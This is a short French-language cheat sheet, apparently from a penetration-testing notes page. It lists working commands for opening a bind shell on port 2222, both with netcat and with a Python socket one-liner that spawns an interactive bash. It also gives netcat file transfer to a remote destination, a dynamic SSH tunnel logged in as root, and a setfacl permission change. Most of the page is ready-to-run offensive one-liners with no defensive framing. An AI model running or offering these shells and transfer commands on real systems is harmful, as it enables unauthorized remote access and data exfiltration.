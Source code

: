 <h2>Obtenir un shell complet</h2>
<ul>Ouvrent un shell sur le port 2222 :
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>

Envoi fichier :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>


Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>

Accorder les permissions pour un user specifique 

setfacl -m u:username:rwx myfolder
